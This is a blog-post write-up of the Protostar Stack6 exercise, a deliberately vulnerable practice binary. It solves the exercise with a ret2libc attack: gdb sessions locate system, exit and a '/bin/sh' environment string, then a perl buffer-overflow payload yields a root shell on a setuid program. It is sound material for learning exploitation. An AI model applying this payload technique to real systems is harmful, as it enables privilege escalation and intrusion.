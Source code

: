 ```yaml
---
layout: post
title:  "Protostar Stack6 challenge"
date:   2018-04-22 18:26:36 +0530
categories: exploit-exercises protostar stack6
---
```

[Stack6][stack6-proto-link] exercise has some restrictions on what addresses can we return to. If we try the usual method followed for [Stack5][stack5-proto-link] we're unable to spawn the shell. The source code for `Stack6` is

{% highlight cpp %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
{% endhighlight %}
The if condition `if((ret & 0xbf000000) == 0xbf000000)` is what prevents us from executing shell-code we keep in our stack.
The address of shellcode we had kept in stack begai=n with `0xbf` making if condition true. Can we not place our shell code some where in stack not staring with `0xbf`. Perhaps thats not possible.
We can check that in gdb
{% highlight nasm %}
user@protostar:~$ gdb /opt/protostar/bin/stack6
(gdb) b main
Breakpoint 1 at 0x8048500: file stack6/stack6.c, line 27.
(gdb) r
Starting program: /opt/protostar/bin/stack6
Breakpoint 1, main (argc=1, argv=0xbffff884) at stack6/stack6.c:27
27	stack6/stack6.c: No such file or directory.
	in stack6/stack6.c
(gdb) info proc map
process 2206
cmdline = '/opt/protostar/bin/stack6'
cwd = '/home/user'
exe = '/opt/protostar/bin/stack6'
Mapped address spaces:
	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/stack6
	 0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/stack6
	0xb7e96000 0xb7e97000     0x1000          0        
	0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
	0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
	0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
	0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
	0xb7fd9000 0xb7fdc000     0x3000          0        
	0xb7fe0000 0xb7fe2000     0x2000          0        
	0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
	0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
	0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
	0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
	`0xbffeb000 0xc0000000    0x15000          0           [stack]`
(gdb)
{% endhighlight %}
So memory mapped for stack area all start with `0xbf`. Thus we cannot execute code from our stack.
The challenge mentions ret2libc(return to lib c) which i used for this challenge. [Performing a ret2libc Attack][ret2libc-tut-link] provides a good explanation of how this attack works.
I used the method mentioned in previous [tutorial][stack5-tut-link] to find out offset of `RET` from `buffer`. Which comes out to be `80(0x50)` in this case.
Next we find out address of system and exit commands
{% highlight nasm %}
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7ec60c0 <*__GI_exit>
{% endhighlight %}
Now as mentioned in [Performing a ret2libc Attack][ret2libc-tut-link] tutorial link our payload would be `[A*80][system][exit][cmd]`. `cmd` here will be the string '/bin/sh' or `/bin/bash`. Since `stack6` is a `setuid` program with owner as root, i should get root priviliges when shell is spawned. But after some failed attempts to use `/bin/bash` as cmd i found out that it drops root priviliges. But on trying with `/bin/sh` it did not drop root. Probably because of this [reason][bin-sh-so-link].
Further there are two ways to pass `/bin/sh` to payload. Either through enviroment variable or storing the string in stack memory. Continuing on following the [Performing a ret2libc Attack][ret2libc-tut-link] i first tried with environment variable.
Instead of using C program as in tutorial to load /bin/sh to shell enviroment, simply do following in shell
{% highlight shell %}
user@protostar:~$ export EGG="/bin/sh"
{% endhighlight %}
Then create a C program to get its address
{% highlight cpp%}
user@protostar:~$ cat getenv.c
int main() {
	char *p = getenv("EGG");
	printf("ptr %p\n", p);
}
user@protostar:~$ ./getenv
ptr 0xbffffa24
{% endhighlight %}
But as mentioned in tutorial/over internet this address changes and depends upon calling program. So i fired up gdb to find actual address of EGG in `stack6` program.
{% highlight nasm %}
user@protostar:~$ gdb /opt/protostar/bin/stack6
(gdb) b main
Breakpoint 1 at 0x8048500: file stack6/stack6.c, line 27.
(gdb) x/30s 0xbffffa24-30
0xbffffa06:	 <Address 0xbffffa06 out of bounds>
0xbffffa06:	 <Address 0xbffffa06 out of bounds>
0xbffffa06:	 <Address 0xbffffa06 out of bounds>
0xbffffa06:	 <Address 0xbffffa06 out of bounds>
0xbffffa06:	 <Address 0xbffffa06 out of bounds>
0xbffffa06:	 <Address 0xbffffa06 out of bounds>
0xbffffa06:	 <Address 0xbffffa06 out of bounds>
0xbffffa06:	 <Address 0xbffffa06 out of bounds>
0xbffffa06:	 <Address 0xbffffa06 out of bounds>
0xbffffa06:	 <Address 0xbffffa06 out of bounds>
{% endhighlight %}
Here output shows i could not find `/bin/sh` string. On some previous trials i was able to find the string address as `0xbfffff97` but i was still unable to get shell using it, pointing out that the address was still different that used.
Luckily after some googling to find address of environment variable in a program i can upon this helpful [code][genenvaddr-link] which came to rescue.
{% highlight shell %}
user@protostar:~$ ./getenvaddr EGG /opt/protostar/bin/stack6
EGG will be at 0xbffffa02
{% endhighlight %}
Combining all information found it was time to prepare payload as `perl -e 'print "A"x80 . "\xb0\xff\xec\xb7" . "\xc0\x60\xec\xb7" . "\x02\xfa\xff\xbf"'`
and use it. But initial attempts failed. The shell was being dropped.
{% highlight shell %}
user@protostar:~$ perl -e 'print "A"x80 . "\xb0\xff\xec\xb7" . "\xc0\x60\xec\xb7" . "\x02\xfa\xff\xbf"'  | /opt/protostar/bin/stack6
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA???AAAAAAAAAAAA????`????
user@protostar:~$
user@protostar:~$ perl -e 'print "A"x80 . "\xb0\xff\xec\xb7" . "\xc0\x60\xec\xb7" . "\x02\xfa\xff\xbf"' > p
user@protostar:~$ /opt/protostar/bin/stack6 < p
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA???AAAAAAAAAAAA????`????
user@protostar:~$
{% endhighlight %}
This was probably due to some issues with shell-redirection. But on doing it the same was as done was `stack5` i was able to get a root shell.
{% highlight shell %}
user@protostar:~$ perl -e 'print "A"x80 . "\xb0\xff\xec\xb7" . "\xc0\x60\xec\xb7" . "\x02\xfa\xff\xbf"' > p
user@protostar:~$ (cat p;cat) | /opt/protostar/bin/stack6
input path please:
got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA???AAAAAAAAAAAA????`????
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
whoami
root
{% endhighlight %}
So finally we were able to bypass the executable address checking by using ret2libc calls. We used `system` call to `/bin/sh` stored in shell environment.
And `exit` to gracefully exit from program after `system` return to it upon completion. `exit` also expects a parameter got around without passing. It would pick up any junk value after `[cmd]` and use it.
Next we will see how to do this by storing string `/bin/sh` in the stack itself.
[stack6-proto-link]:https://exploit-exercises.com/protostar/stack6/
[stack5-proto-link]:https://exploit-exercises.com/protostar/stack5/
[stack5-tut-link]:https://rawatm.github.io/security/protostar/2018/04/14/protostar-stack5/
[bin-sh-so-link]:https://stackoverflow.com/questions/13209215/bin-sh-does-not-drop-privileges
[genenvaddr-link]:https://gist.github.com/superkojiman/6a6e44db390d6dfc329a
[ret2libc-tut-link]:https://www.shellblade.net/docs/ret2libc.pdf